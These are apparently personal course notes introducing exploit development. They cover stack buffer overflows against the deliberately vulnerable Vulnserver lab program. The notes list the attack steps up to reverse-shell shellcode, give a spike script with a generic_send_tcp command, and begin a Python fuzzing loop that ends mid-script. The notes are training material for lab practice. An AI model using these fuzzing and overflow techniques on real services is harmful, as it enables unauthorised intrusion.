 # 12. Intro to Exploit Development

## Required installations

- https://www.immunityinc.com/products/debugger/
- http://www.thegreycorner.com/p/vulnserver.html

## Buffer Overflows Explained

### Anatomy of Memory

![[Pasted image 20210929213300.png]]

### Anatomy of the Stack

![[Pasted image 20210929213330.png]]

- What happens in the stack is that you're overflowing buffer space and controlling the Extended Base pointer and Extended Intruction Pointer.

### Steps to conduct a buffer overflow
1. Spiking - Find vulnerable parts of a program
2. Fuzzing - Send a bunch of characters to see if we can break it
3. Find the offset - At what point did we break it
4. Overwriting EIP - Controlling the return address
5. Finding Bad Characters
6. Finding the Right Module
7. Generating Shellcode - Allows us to get reverse shell
8. Root!

## Spiking

- Use `generic_send_tcp`

```spk
# trun.spk

s_readline();
s_string("TRUN ");
s_string_variable("0");
```

- Then run `generic_send_tcp 192.168.17.12 9999 trun.spk 0 0`

## Fuzzing


```python
#!/usr/bin/python
 
import sys, socket
from time import sleep
 
buffer = "A" * 100
 
while True:
    try:
        payload = "TRUN /.:/" + buffer
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        print ("[+] Sending the payload...\n" + str(len(buffer)))
```